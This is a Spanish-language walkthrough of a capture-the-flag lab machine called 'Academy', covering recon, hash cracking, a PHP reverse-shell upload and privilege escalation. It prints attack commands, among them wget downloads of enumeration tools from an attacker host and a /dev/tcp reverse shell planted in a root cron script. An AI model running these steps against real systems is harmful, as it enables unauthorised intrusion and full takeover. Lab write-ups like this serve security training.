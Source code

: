 ## Summary

Tags: #FTP #SSH #HTTP #Hash #HashCat #ReverShell #LinPEAS #www-data #PSPY 

- IP -> 192.168.68.110
- Ports -> TCP (21,22,80,), UDP (idk)
- OS ->  Linux
- Services & Applications
    - FTP -> anonymous allowed
    - HTTP -> Apache2 httpd 2.4.38

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups              # Para hacer un escaneo de la red 

	# I = i mayuscula; es la interface ens33
	# ignoredups = Ignora IPs duplicadas 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

Para conectarnos al servidor
```bash
❯ ftp ❮IP❯                              # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.

	❯ dir / ls                              # Listar el contenido del directorio
	❯ get ❮File❯                            # Podemos copiarnos un archivo.
```
Encontramos un archivo llamado **note.txt** en donde podemos observar un **UserID:Hash**

```bash 
❯ hash-identifier                           # Abriremos la tool y desoues colocaremos el hash a encontrar
```
Nos muestra que el Hash es: MD5

Usaremos Hashcat para hacer fuerza bruta al Hash
```bash
❯ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 

	# m = 0 = MD5
	# hashes.txt = Archivo que contiene el hash
```
Como resultado nos da que la passwd: student

Dirbuster de manera no grafica
```bash
❯ dirb http://<IP>
```

O podemos usar Ffuf
```bash
❯ ffuf -u http://❮IP❯/FUZZ -w /usr/share/seclists/dirbuster/directory-list-2.3-medium.txt:FUZZ

	# u -> url 
	# w -> ruta del diccionario 
	# FUZZ -> Ahi se van a sustituir las palabras del diccionario
```

Entramos a la web con el Dir que encontramos de **Academy** ahi introducimos el User:Passwd


## User
Observarmos que podemos subir una 'imagen', pero en lugar de eso vamos a subir un archivo que contenga una ReverShell en PHP.
* [ReverShell-PHP](https://github.com/pentestmonkey/php-reverse-shell)
Ahi encontraremos una ReverShell en donde copiaremos el RAW y lo pegaremos en un archivo 'shell.php' en nuestra maquina de atacante. En ese archivo le cambiaremos a nuestra IP y nuestro Puerto. 
* El archivo creado, lo subiremos a la web 

```bash
❯ nc -nlvp 443                          # Nos ponemos en escucha parta recibir la ReverShell  
```
Ahora hemos obtenido acceso a la maquina como el usuario **www-data**

Ahora tendremos que hacer escalada de privilegios
```bash
❯ sudo -l                               # Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
```

Usaremos LinPEAS para ver las vulnerabilidades y asi poder escalar privilegios.
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)    ->   Te muestra todas las vulnerabilidades que existen en esa distribucion 

Una vez descargado, lo que debemos de hacer es subirlo a la maquina victima.
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 en donde se encuentra el LinPeas
```

Para poder subirlo, siempre debemos de irnos al directorio de **/tmp** en la maquina victima ya que ahi hay permisos de lectura y escritura.
```bash
❯ cd /tmp  
```

Comando que ejecutaremos en la maquina victima para descargarnos el linpeas desde la maquina de atacante
```bash
❯ wget http://❮IP❯/linpeas.sh                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```

```bash
❯ chmod u+x linpeas.sh                          # Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)
```

```bash
❯ ./linpeas.sh                                  # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)
```

* Encontramos un archivo en la siguiente ruta **/home/grimmie/backup.sh** 
* Ademas de una passwd para mysql **My_V3ryS3cur3_P4ss** en la ruta **/var/www/html/academy/includes/config.php**

```bash
❯ cat /etc/passwd             # Podemos ver los usuarios, no las passwd. Los usuarios tiene /bin/bash al final 
```
Observamos que Grimmie es Administrador.

Como el puerto 22 estaba abieto, podemos entrar usando la passwd que encontramos y el usuario Administrador
```bash
❯  ssh grimmie@192.168.68.110                                  # Para conectarnos por ssh en el puerto default 22
```
Ahora somos Grimmie

Miramos que en el home del usaurio Grimmie hay un archivo que se ejecuta cada cierto tiempo. Por lo que 
```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ crontab -u root -l                 # Pero nos pide privilegios de root
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```


-   **Herramienta PSPY**: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
Esta herramienta nos ayudara a identificar tareas, procesos que se estan ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar
Nos descargamos esta herramienta 
```bash
❯ ./pspy                            # Ejecutamos el binario 
```

Una vez descargado, lo que debemos de hacer es subirlo a la maquina victima.
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 en donde se encuentra el LinPeas
```

Comando que ejecutaremos en la maquina victima para descargarnos el pspy64 desde la maquina de atacante
```bash
❯ wget http://❮IP❯/pspy64                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```


## Root

Para escalar privilegios, podemos modificar el archivo del backup.sh que se esta ejecuando cada cierto tiempo,  borrarle el conetnido y colocarle la ReverShell

```bash
❯ nano backup.sh
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1         # Colocamos nuestra IP y nuestro Puerto de atacante
```

```bash
❯ nc -nlvp 443        # Nos ponemos en escucha
```

Despues de un tiempo, cuando se ejecute de nuevo la tarea ahora nos hara root.

